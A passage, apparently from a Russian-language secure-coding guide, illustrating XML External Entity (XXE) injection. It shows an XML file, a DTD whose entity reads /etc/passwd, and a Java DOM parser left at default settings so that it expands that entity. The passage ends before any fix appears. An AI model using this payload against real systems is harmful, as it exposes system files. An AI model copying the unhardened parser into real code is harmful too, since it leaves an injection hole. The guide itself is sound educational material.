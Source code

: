 ```xml
<!DOCTYPE contacts SYSTEM "contacts.dtd">
<contacts>
 <contact>
  <firstname>John</firstname>
  <lastname>&xxe;</lastname>
 </contact>
</contacts>
```

**Пример DTD**:

```xml
<!ELEMENT contacts (contact*)>
<!ELEMENT contact (firstname,lastname)>
<!ELEMENT firstname (#PCDATA)>
<!ELEMENT lastname ANY>
<!ENTITY xxe SYSTEM "/etc/passwd">
```

##### XXE используя DOM

```java
import java.io.IOException;
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import javax.xml.parsers.ParserConfigurationException;
import org.xml.sax.InputSource;
import org.w3c.dom.Document;
import org.w3c.dom.Element;
import org.w3c.dom.Node;
import org.w3c.dom.NodeList;

public class parseDocument {
 public static void main(String[] args) {
  try {
   DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
   DocumentBuilder builder = factory.newDocumentBuilder();
   Document doc = builder.parse(new InputSource("contacts.xml"));
   NodeList nodeList = doc.getElementsByTagName("contact");
   for (int s = 0; s < nodeList.getLength(); s++) {
     Node firstNode = nodeList.item(s);
     if (firstNode.getNodeType() == Node.ELEMENT_NODE) {
       Element firstElement = (Element) firstNode;
       NodeList firstNameElementList = firstElement.getElementsByTagName("firstname");
       Element firstNameElement = (Element) firstNameElementList.item(0);
       NodeList firstName = firstNameElement.getChildNodes();
       System.out.println("First Name: "  + ((Node) firstName.item(0)).getNodeValue());
       NodeList lastNameElementList = firstElement.getElementsByTagName("lastname");
       Element lastNameElement = (Element) lastNameElementList.item(0);
       NodeList lastName = lastNameElement.getChildNodes();
       System.out.println("Last Name: " + ((Node) lastName.item(0)).getNodeValue());
     }
    }
  } catch (Exception e) {
    e.printStackTrace();
  }
 }
}
```
